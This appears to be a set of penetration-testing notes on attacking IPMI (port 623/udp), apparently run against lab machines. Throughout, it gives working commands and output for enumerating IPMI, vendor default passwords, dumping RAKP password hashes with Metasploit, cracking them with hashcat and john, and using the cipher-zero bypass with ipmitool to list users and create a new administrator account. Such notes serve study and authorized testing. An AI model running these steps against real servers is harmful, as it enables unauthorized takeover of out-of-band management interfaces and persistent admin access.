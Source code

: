 ```yaml
---
public: true 
#Tags: tag1, tag2
---
```

Port : 623/udp

## Enumeration

### nmap

```shell-session
$ sudo nmap -sU --script ipmi-version -p 623 $TARGET_IP
```

### metasploit

```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads


msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Default passwords

| Product | Username | Password|
| --- | --- | --- |
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | randomized 8 characters (number and uppercase letters) |
| Supermicro IPMI | ADMIN | ADMIN |


## IPMI 2.0 Password Hash grabbing
Any valid username can lead to grabbing from the server the salted SHA1 or MD5 password of that user. In the event of an HP iLO using a factory default password, we can use this Hashcat mask attack command `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u` which tries all combinations of upper case letters and numbers for an eight-character password.

It can then be cracked offline using `hashcat` with `mode 7300`

### Getting the Hash using Metasploit
[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
```shell-session
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line



msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Cracking the hash
```
$ john -w=/usr/share/wordlists/rockyou.txt ipmi.john 
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (RAKP, IPMI 2.0 RAKP (RMCP+) [HMAC-SHA1 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
trinity          (10.129.190.51 admin)      <====================================== 
1g 0:00:00:03 DONE (2023-04-27 19:03) 0.2538g/s 3640Kp/s 3673Kc/s 3673KC/s -xlengx-..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

### Authenticating without password
If you know a valid username, you might authenticate without password

#### Check if host is vulnerable

```
 sudo nmap -n -Pn -sU -T5 $TARGET_IP -p 623 --script ipmi-cipher-zero           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 21:08 BST
Nmap scan report for 10.129.181.223
Host is up (0.023s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-cipher-zero: 
|   VULNERABLE:
|   IPMI 2.0 RAKP Cipher Zero Authentication Bypass
|     State: VULNERABLE
|     Risk factor: High
|       

```

#### Exploitation

```
$ ipmitool -I lanplus -H $TARGET_IP -C 0  -U ceil -P whateverpassword user list          
IANA PEN registry open failed: Aucun fichier ou dossier de ce type
ID  Name             Callin  Link Auth  IPMI Msg   Channel Priv Limit
1                    true    false      false      USER
2   ceil             true    false      true       ADMINISTRATOR
3                    true    false      false      Unknown (0x00)
4                    true    false      false      Unknown (0x00)
[...]
```

Creation of a new administrator user with known password
```
$ ipmitool -I lanplus -H $TARGET_IP -C 0  -U ceil -P whateverpassword user set name 4 rebrec 
$ ipmitool -I lanplus -H $TARGET_IP -C 0  -U ceil -P whateverpassword user set password 4 rebrec
$ ipmitool -I lanplus -H $TARGET_IP -C 0  -U ceil -P whateverpassword user set priv 4 4
```
We can then try to connect through the web interface and interact with the console